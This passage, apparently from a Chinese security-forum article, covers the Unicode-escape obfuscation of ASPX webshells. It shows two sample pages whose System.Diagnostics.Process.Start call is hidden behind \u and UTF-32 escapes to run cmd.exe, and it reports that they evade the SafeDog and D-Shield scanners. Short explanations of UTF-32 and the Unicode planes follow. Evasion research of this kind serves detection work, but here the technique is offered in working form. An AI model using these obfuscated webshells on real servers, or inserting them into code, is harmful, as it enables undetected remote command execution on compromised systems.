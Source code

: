 ```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
    public void Page_load()
    {
        \u0053\u0079\u0073\u0074\u0065\u006d.
            \u0044\u0069\u0061\u0067\u006e\u006f\u0073\u0074\u0069\u0063\u0073.
            \u0050\u0072\u006f\u0063\u0065\u0073\u0073.
            \u0053\u0074\u0061\u0072\u0074("cmd.exe","/c calc");
    }
</Script>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-e962845af73c48ebda89af6700477fde66ddc41f.png)

再分别用安全狗和D盾测试免杀效果，同目录下还有另外3个文件，aspx.aspx 是经典Jscript一句话木马，aspxspy.aspx 看文件名就知道是经典大马，xls.aspx 是基于xml文档实现的小马，对比被杀的3个Webshell，Unicode编码后的文件免杀效果非常理想，如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-d6bf420c21c515847b68821acaad2b006bbe87ac.png)

### 2.2.3 UTF-32

Unicode 的编码空间为 0xFFFF - 0x10FFFF，那可以想到的最简单的办法就是让每个码位对应一个 32 位 (4 bytes) 二进制数，这就是 UTF-32 编码。所以在 UTF-32 中，每个字符占用 4 个字节，它是一种定长编码格式，使用32位表示Unicode中的一个码位。由于Unicode的码位实际只用了21位，所以多余部分前导0。例如字符小写字母a，对应码位为`\x61`，存储的字节序列为：`\x00000061`。如下代码D盾未查出样本

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Process.
        \U00000053\U00000074\U00000061\U00000072\U00000074("cmd.exe","/c calc");
    }
</script>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-9af4fd0f5f38211e15b3859394a236e8a0b07af2.png)

0X03 Unicode Plane
==================

在Unicode标准中，码位的表示方法通常是使用它们的十六进制，并加上`U+`前缀。码位的分类方法多种多样。我们通过下表来阐明Unicode标准使用的几种平面和一些术语。

| 码位范围(十六进制) | 名称简写 | 名称 | 字符量 |
|---|---|---|---|
| U+0000 – U+FFFF | BMP | Basic Multilingual Plane | 55,503 |
| U+10000 – U+1FFFF | SMP | Supplementary Multilingual Plane | 22,279 |
| U+20000 – U+2FFFF | SIP | Supplementary Ideographic Plane | 60,886 |
| U+30000 – U+DFFFF | unassigned | unassigned | 4,939 |
| U+E0000 – U+EFFFF | SSP | Supplementary Special-purpose Plane | 337 |
| U+F0000 – U+10FFFF | SPUAP | Supplementary Private Use Area Planes | 0 |
